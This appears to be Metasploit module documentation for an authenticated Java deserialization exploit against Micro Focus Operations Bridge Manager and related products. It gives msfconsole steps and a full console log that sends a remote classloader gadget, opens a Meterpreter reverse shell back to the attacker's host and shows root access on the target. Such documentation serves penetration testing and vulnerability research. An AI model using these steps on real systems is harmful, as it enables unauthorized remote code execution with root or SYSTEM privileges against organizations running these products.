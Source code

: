 ## Vulnerable Application

This module exploits an authenticated Java deserialization that affects a truckload of Micro Focus products: 
* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3 \
* Data Center Automation version 2019.11 
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11 
* Universal CMDB versions: 2020.05, 2019.11, 2019.05, 2019.02, 2018.11, 2018.08, 2018.05, 11, 10.33, 10.32, 10.31, 10.30 
* Hybrid Cloud Management version 2020.05 
* Service Management Automation versions 2020.5 and 2020.02

However this module was only tested with Operations Bridge Manager 2020.05.

Exploiting this vulnerability will result in remote code execution as the root user on Linux or the SYSTEM user on Windows.
Authentication is required, the module user needs to login to the application and obtain the authenticated LWSSO_COOKIE_KEY, which should be fed to the module. 
Any authenticated user can exploit this vulnerability, even the lowest privileged ones.

For more information refer to the advisory link:
* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_obm_auth_rce`
4. `set rhost TARGET'`
5. `set lhost YOUR_IP`
6. `set srvhost YOUR_IP`
7. `set lwsso_cookie_key AUTHENTICATED_COOKIE`
8. `run`
9. You should get a shell.

## Scenarios

```
msf6 > use exploit/multi/http/microfocus_obm_auth_rce
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set rhosts 10.0.0.10
rhosts => 10.0.0.10
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set srvhost 10.0.0.1
srvhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set lwsso_cookie_key "7j-OJPUrD25c8CYmZav3fIuzXlPk4tksYgXd3HiuCMKC_Qn4wT4D8Tc_ovwvtHPLCZRi1vsRIIyj9j4IVJiAAR_yDb3olzHTGD2J1haQU6sq_iJRDBKgl1eN3n3PHrc-yXa8jtXC3ltNmLPLkXPbdrx6zbbTEkxyMMn2Lg5co4bGSA6Z-_OtlMXgUexKPLLAzszXJuVxeF5b6-sc91F7ew.."
lwsso_cookie_key => 7j-OJPUrD25c8CYmZav3fIuzXlPk4tksYgXd3HiuCMKC_Qn4wT4D8Tc_ovwvtHPLCZRi1vsRIIyj9j4IVJiAAR_yDb3olzHTGD2J1haQU6sq_iJRDBKgl1eN3n3PHrc-yXa8jtXC3ltNmLPLkXPbdrx6zbbTEkxyMMn2Lg5co4bGSA6Z-_OtlMXgUexKPLLAzszXJuVxeF5b6-sc91F7ew..
msf6 exploit(multi/http/microfocus_obm_auth_rce) > check
[*] 10.0.0.10:443 - The service is running, but could not be validated.
msf6 exploit(multi/http/microfocus_obm_auth_rce) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] Using URL: http://10.0.0.1:8080/
[+] Started remote classloader server at http://10.0.0.1:8080/
[*] Sending remote classloader gadget to https://10.0.0.10/legacy/topaz/sitescope/conf/registration
[*] Sending stage (58147 bytes) to 10.0.0.10
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.9.8.10:36432) at 2021-01-28 18:13:18 +0700
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > shell
Process 1 created.
Channel 1 created.
uname -a
Linux pwned 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
```
